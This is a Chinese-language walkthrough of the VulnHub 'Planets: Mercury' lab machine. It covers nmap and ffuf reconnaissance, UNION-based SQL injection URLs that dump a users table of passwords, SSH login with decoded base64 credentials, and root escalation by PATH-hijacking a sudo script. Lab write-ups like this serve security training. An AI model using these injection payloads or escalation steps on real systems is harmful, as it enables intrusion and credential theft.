# 目标

获取**user flag**和**root flag**

---

# 信息收集
## 1.1 主机发现
```shell
nmap -sn 192.168.64.0/24 --max-rate 1000
```

靶机的IP地址是`192.168.64.16`

## 1.2 端口扫描
创建文件夹*nmap-scan*
```shell
nmap -sS 192.168.64.16 -sV -p- --max-rate 1000 -oA nmap-scan/nmap-scan-tcp-syn
nmap -sU 192.168.64.16 -sV --top-ports 100 --max-rate 1000 -oA nmap-scan/nmap-scan-udp
```


将结果全格式保存在nmap-scan文件夹中，可以看出靶机开放了22,8080端口。

使用nmap默认的脚本扫描开放的端口：
```shell
nmap -sV -O -sc 192.168.64.16 -oA nmap-scan/nmap-scan-sc -p1,22,8080
```


## 1.3 浏览器访问获取信息
访问网址：`http://192.168.64.16:8080`


说是正在开发，直接扫描目录：
```shell
ffuf -u http://192.168.64.16:8080/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 20 -p 0.1-0.3 -rate 30 -e .zip,.txt,.git,.php -ac
```
除了一个robots.txt文件，没有什么信息。🌚

查看一下robots.txt文件：

没什么信息。🌚

在网址上随意输入一些目录名，显示如下：

页面提示说有一个目录`mercuryfacts`，去访问一下：`http://192.168.64.16:8080/mercuryfacts`，显示如下：


有张图片，可能有隐写，先尝试着解读一下：
```shell
stegseek ./img/mercury_1.jpg /usr/share/wordlists/rockyou.txt
```

没有发现什么信息。🌚

点击*Load a fact*，显示如下：

上图可以注意到一点，有数字，有没有可能是sql的查询呢？

点击*See list*，显示如下：

这些信息表明，这台靶机目前使用的是mysql数据库，里面有users表。

对sql注入进行一些操作：

有报错，而且下面还给出了代码，尝试解读代码。





> **路径参数 (Path Parameter/Path Variable) / URL 重写 (URL Rewriting)**
> 这是针对“参数本身”的称呼。传统的做法是通过查询字符串（Query String）传递参数，而现代 Web 开发更喜欢把参数直接写在路径里。
> 传统方式 (Query String): `https://example.com/users/profile?id=123`
> 这里 123 是通过 ?id= 传递的参数。
> 路径参数方式: `https://example.com/users/123`
> 在这里，123 看起来像是一个名为 123 的文件夹，但实际上后端程序会把它抓取出来，当作 id 参数的值来处理。

## 1.4 sql注入获取信息
访问：`http://192.168.64.16:8080/mercuryfacts/-1 union select group_concat(version(),'~',user())`

数据库是`5.0`以上，有`information_schema`库。

访问：`http://192.168.64.16:8080/mercuryfacts/-1 union select group_concat(schema_name) from information_schema.schemata`

注意到有一个显眼的数据库: `mercury`

访问：`http://192.168.64.16:8080/mercuryfacts/-1 union select group_concat(table_name) from information_schema.tables where table_schema='mercury'`

`mercury`数据库里面有2个表：`facts`和`users`, 结合上面浏览器的信息，主要查看`users`表。

访问：`http://192.168.64.16:8080/mercuryfacts/-1 union select group_concat(column_name) from information_schema.columns where table_name='users'`

`users`表有三个字段：`id`, `password`, `username`

访问：`http://192.168.64.16:8080/mercuryfacts/-1 union select group_concat(concat(id,'~',username,'~',password,';')) from mercury.users`

拿到了4个用户名与对应的密码：
- ID=1
    - username: `john`
    - password: `johnny1987`
- ID=2
    - username: `laura`
    - password: `lovemykids111`
- ID=3
    - username: `sam`
    - password: `lovemybeer111`
- ID=4
    - username: `webmaster`
    - password: `mercuryisthesizeof0.056Earths`

---

# 攻入系统，收集信息

上面的4个用户名与密码有一个可以使用ssh登陆：


## 1.1 使用webmaster用户获取信息

读取`user_flag.txt`:


**寻找带有关键信息的文件**
```shell
find / \( -path /sys -o -path /lib -o -path /usr -o -path /dev -o -path /proc \) -prune -o -iname "*key*" 2>/dev/null
find / \( -path /sys -o -path /lib -o -path /usr -o -path /dev -o -path /proc \) -prune -o -iname "*pass*" 2>/dev/null
find / \( -path /sys -o -path /lib -o -path /usr -o -path /dev -o -path /proc \) -prune -o -iname "*bak*" 2>/dev/null
find / \( -path /sys -o -path /lib -o -path /usr -o -path /dev -o -path /proc \) -prune -o -iname "*back*" 2>/dev/null
```
没找到有什么有用的文件。🌚

**寻找当前用户可以以root用户执行的命令**
```shell
sudo -l
```

没有，巴比Q 🌚

**寻找有没有什么命令/工具具有高危的细粒度权限**
```shell
getcap -r / 2>/dev/null
```

这些基本都是正常的，没有什么有用的地方。🌚

**确认系统版本及内核版本**
```shell
uname -a
```


查看一个当前用户目录下有什么文件，可以得到一些信息
```shell
cat ~/mercury_proj/notes.txt
```
显示如下：
```text
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```
很明显了，这是base64编码的密码。然后解码一下：
```shell
echo -n 'bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK' | base64 -d 
echo -n 'bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==' | base64 -d
```
显示如下：

*webmaster*用户的密码已经知道了，而且也对的上，现在用ssh登陆*linuxmaster*用户。

登陆成功。

## 1.2 使用linuxmaster用户获取信息

**寻找当前用户可以以root用户执行的命令**
```shell
sudo -l
```

发现当前用户可以以root用户执行`/usr/bin/check_syslog.sh`这个程序，并且执行这个命令之前可以设置环境变量（`SETENV`）。

---

# 系统提权

查看一下这个命令的内容：
```shell
cat /usr/bin/check_syslog.sh
```
显示如下：

里面有一个`tail`命令，考虑路径劫持的方案。

```shell
cd ~
touch tail
echo '#!/bin/bash' > tail
echo '/bin/bash' >> tail
chmod +x tail
sudo PATH=/home/linuxmaster:$PATH /usr/bin/check_syslog.sh
```

提权成功。

---
---

# 硬件与软件平台
## 硬件
- Apple Macbook pro M1-Pro 32G 512G
- `UTM虚拟机`

## 软件
kali
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- `Arm64`

靶机Plants-Mercury: 
- `https://www.vulnhub.com/entry/the-planets-mercury,544/`

---

> 水平有限，有不足、错误之处欢迎指出。🧐